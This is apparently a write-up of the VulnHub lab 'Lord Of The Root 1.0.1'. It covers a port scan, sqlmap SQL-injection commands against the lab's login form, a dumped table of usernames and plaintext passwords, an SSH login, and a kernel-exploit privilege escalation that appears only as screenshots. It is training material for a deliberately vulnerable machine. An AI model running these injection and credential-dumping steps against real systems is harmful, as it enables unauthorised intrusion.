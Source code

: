 ```yaml
---
title: Load of the Root 1.0.1
categories: [VulnHub, Walkthrough]
tags: [PrivEsc]
---
```

# Load of the root



## **Description ⤵️**


💡 [Lord Of The Root: 1.0.1](https://vulnhub.com/entry/lord-of-the-root-101,129/) →

I created this machine to help others learn some basic CTF hacking strategies and some tools. I aimed this machine to be very similar in difficulty to those I was breaking on the OSCP.

This is a boot-to-root machine will not require any guest interaction.

There are two designed methods for privilege escalation.

- 23/09/2015 == v1.0.1
- 22/09/2015 == v1.0

---

If you are having issues with VirtualBox, try the following:

- Downloaded LordOfTheRoot_1.0.1.ova (confirmed file hash)
- Downloaded and installed VMWare ovftool.
- Converted the OVA to OVF using ovftool.
- Modified the OVF using text editor, and did the following:
    
    replaced all references to "ElementName" with "Caption" replaced the single reference to "vmware.sata.ahci" with "AHCI"
    
- Saved the OVF. +Deleted the .mf (Manifest) file. If you don't you get an error when importing, saying the SHA doesn't match for the OVF (I also tried modifying the hash, but no luck).
- Try import the OVF file, and it should work fine.

Source: https://twitter.com/dooktwit/status/646840273482330112



Let’s find the IP Address first >>

![103-1.png](/Vulnhub-Files/img/Load_of_the_root/103-1.png)

```bash
IP : 10.0.2.23
```

## Port Scan Results ➡️

![104-2.png](/Vulnhub-Files/img/Load_of_the_root/104-2.png)

![104-1.png](/Vulnhub-Files/img/Load_of_the_root/104-1.png)

```bash
OPEN PORTS >
22   SSH
1337 HTTP
```

---

## Web Enumeration ⤵️

![105-1.png](/Vulnhub-Files/img/Load_of_the_root/105-1.png)

![105-2.png](/Vulnhub-Files/img/Load_of_the_root/105-2.png)

![105-3.png](/Vulnhub-Files/img/Load_of_the_root/105-3.png)

```bash
THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh
```

![105-4.png](/Vulnhub-Files/img/Load_of_the_root/105-4.png)

```bash
Closer!
```

![105-5.png](/Vulnhub-Files/img/Load_of_the_root/105-5.png)

![105-6.png](/Vulnhub-Files/img/Load_of_the_root/105-6.png)

Sqlmap →

```bash
commands →
sqlmap -o -u http**://**10.0.2.23**:**1337**/**978345210**/**index.php --form --dbs --l
```

![105-7.png](/Vulnhub-Files/img/Load_of_the_root/105-7.png)

![105-8.png](/Vulnhub-Files/img/Load_of_the_root/105-8.png)

```bash
Command → 
sqlmap -o -u http://10.0.2.23:1337/978345210/index.php --form --dbms m
```

![105-9.png](/Vulnhub-Files/img/Load_of_the_root/105-9.png)

```bash
+----+------------------+----------+

| id | password         | username |

+----+------------------+----------+

| 1  | iwilltakethering | frodo    |

| 2  | MyPreciousR00t   | smeagol  |

| 3  | AndMySword       | aragorn  |

| 4  | AndMyBow         | legolas  |

| 5  | AndMyAxe         | gimli    |

+----+------------------+----------+
```

Now lets try SSH login →

```bash
MyPreciousR00t
```

![106-1.png](/Vulnhub-Files/img/Load_of_the_root/106-1.png)

Now lets check the kernel version →

![106-2.png](/Vulnhub-Files/img/Load_of_the_root/106-2.png)

I found on web →

![106-3.png](/Vulnhub-Files/img/Load_of_the_root/106-3.png)

![106-4.png](/Vulnhub-Files/img/Load_of_the_root/106-4.png)

Let's try it out →

I got it →

![106-5.png](/Vulnhub-Files/img/Load_of_the_root/106-5.png)

Flag.txt →

![106-6.png](/Vulnhub-Files/img/Load_of_the_root/106-6.png)

---

# **Summery Notes →**

→ sqlmap

→ post exploit can be done with exploiting kernel or ,

→ Buffer Overflow
